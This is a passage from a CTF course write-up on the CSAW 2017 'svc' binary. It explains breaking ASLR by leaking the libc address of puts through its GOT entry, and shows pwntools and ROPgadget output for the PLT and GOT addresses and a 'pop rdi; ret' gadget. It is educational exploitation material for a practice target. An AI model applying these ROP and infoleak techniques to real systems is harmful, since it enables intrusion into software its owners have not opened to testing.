 So we can see all of the memory regions here. The memory region I am going to break ASLR in is the `libc-2.23.so` region starting at `0x00007ffff768b000` and ending at `0x00007ffff784b000`. There are two reasons for this. The first is that if we leak an address in this region, it will give us access to a lot of gadgets so we can do a lot of things with our code. The second is that we can get an infoleak in this region. Looking at the imported functions in Ghidra, we can see that `puts` is an imported function. Puts will print the data pointed to by a pointer it is handed, until it reaches a null byte. The GOT table is a section of memory in the elf that holds various libc addresses. It does this so the binary knows where it can find those addresses, since it doesn't know what they will be when it compiles. Since PIE is disabled, the GOT entry addresses aren't randomized and we know what they are. So if we were to pass the GOT entry address for `puts` to `puts` (which we can call since it is an imported function, meaning it is compiled into the binary, and we know it's address because there is no pie) we will get the libc address of `puts`. 

Also a quick tangent, pie (position independent executable) essentially means there is ASLR for addresses in the elf. For this binary that would include these regions. If this was enabled and we wanted to do what we are doing with the `puts` infoleak, we would need another infoleak in this region:

```
0x0000000000400000 0x0000000000402000 0x0000000000000000 r-x /Hackery/course/content/ctf_course/modules/bof_dynamic/csawquals17_svc/svc
0x0000000000601000 0x0000000000602000 0x0000000000001000 r-- /Hackery/course/content/ctf_course/modules/bof_dynamic/csawquals17_svc/svc
0x0000000000602000 0x0000000000603000 0x0000000000002000 rw- /Hackery/course/content/ctf_course/modules/bof_dynamic/csawquals17_svc/svc
```

To do this infoleak, we will need three things. The plt address of `puts` (address of the imported function which we will use to call it), the address of the got entry of `puts` (holds the libc address), and a rop gadget to pop the got entry into the `rdi` register, and then return. Since `puts` expects it's input (a single char pointer) in the `rdi` register, that is where we need to place it. To find the `plt` and `got` addresses, we can just use pwntools:

```
$ python
Python 2.7.15rc1 (default, Nov 12 2018, 14:31:15) 
[GCC 7.3.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> elf = ELF('svc')
[*] '/Hackery/course/content/ctf_course/modules/bof_dynamic/csawquals17_svc/svc'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
>>> print "plt address: " + hex(elf.symbols['puts'])
plt address: 0x4008cc
>>> print "got address: " + hex(elf.got['puts'])
got address: 0x602018
```

To find the rop gadget we need, we can use a ROP gadget finding utility called ROPGadget (https://github.com/JonathanSalwan/ROPgadget):

```
$ python ROPgadget.py --binary svc | grep "pop rdi"
0x0000000000400ea3 : pop rdi ; ret
```
